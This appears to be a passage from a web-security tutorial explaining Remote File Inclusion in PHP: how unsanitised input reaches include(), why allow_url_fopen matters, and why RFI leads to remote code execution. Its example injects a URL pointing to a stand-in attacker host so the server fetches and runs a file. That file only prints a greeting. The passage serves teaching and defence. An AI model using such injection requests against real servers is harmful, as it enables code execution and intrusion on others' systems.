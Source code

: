 ### Remote File Inclusion (RFI)

RFI is a technique to include remote files into a vulnerable application. Like LFI, RFI vulnerabilities occur when user input is not properly sanitised. Thus, an attacker is able to inject **external URLs** into the `include()` function. 

It is important to note that RFI requires the `allow_url_fopen` option to be set to `true` in the PHP runtime configuration.

The severity of RFI is higher than LFI because RFI vulnerabilities allow an attacker to gain remote code execution (RCE) on the server. Potential consequences include sensitive information disclosure, cross-site scripting (XSS) and denial of service (DoS).

An external server -- where the attacker hosts their malicious files -- must communicate with the application server for a successful RFI attack. The malicious file is then injected via HTTP requests, and the content of the malicious file then executes on the application server.

**Example**

Suppose an attacker hosts a PHP file on their own server at `http://attacker.thm/cmd.txt` with the content:

```php
<?php echo "Hello THM"; ?>
```

The attacker makes a request to inject the malicious URL pointing to their server: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, the malicious URL will pass into the `include()` function. The web server then makes a GET request to the attacker's server to fetch the file. The file's contents are then executed by the application server. 

![Schematic of an RFI attack](./img/rfi_schematics.png "Schematic of an RFI attack")
